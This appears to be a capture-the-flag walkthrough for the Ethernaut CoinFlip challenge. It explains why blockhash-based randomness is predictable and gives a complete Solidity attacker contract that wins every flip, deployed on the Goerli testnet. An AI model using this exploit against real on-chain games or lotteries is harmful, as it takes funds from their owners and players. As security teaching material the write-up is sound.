 Alright, we see that we as user have to provide a guess if in a certain round the blockhash of the previous block divided by a factor is 1 or 0. That means if the blockhash of the previous block can be divided without any rest by the factor.
Big question: How can we guess correctly or rather know the outcome in advance?

From an EOA perspective, we could try to get the blockhash of the previous block, calculate the outcome, send a transaction with a very high gas price and hope that we get into the following block. That is rather impossible. Once a block is published, the validators are starting to work on the next block and our transaction won’t be in the pool. And there is the ‘hope’ factor -> not good enough.

Let’s have a look from a contract perspective: As a contract, we could calculate the guess using the same formula as given in this contract and forward the guess to the CoinFlip contract. Since everything is done in one transaction, it sounds way better than the EOA approach. Let’s get to it.

First our attacker contract:

```solidity
pragma solidity ^0.8.7;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract Attacker {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coinFlipContract;

    event Win();
    event Loose();

    constructor(address _coinFlipContract) {
        coinFlipContract = CoinFlip(_coinFlipContract);
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (coinFlipContract.flip(side)) {
            emit Win();
        } else {
            emit Loose();
        }
    }
}
```

We deploy the contract to Goerli and call `attack()` 10 times :D 
If you want to check if you have won, you can see if you transaction contains the Win event or just read out the consecutiveWins from the CoinFlip contract on the Ethernaut page using the following line: `await contract.consecutiveWins().then(v => v.toString()`)

### Learning:
While writing contracts, do not forget to think about contracts interacting with your contract. This is a perfect example, where from an EOA perspective, it is very difficult to make up to 10 consecutive guesses. But that changes quickly if you start to use a contract in order to interact with the CoinFlip contract.
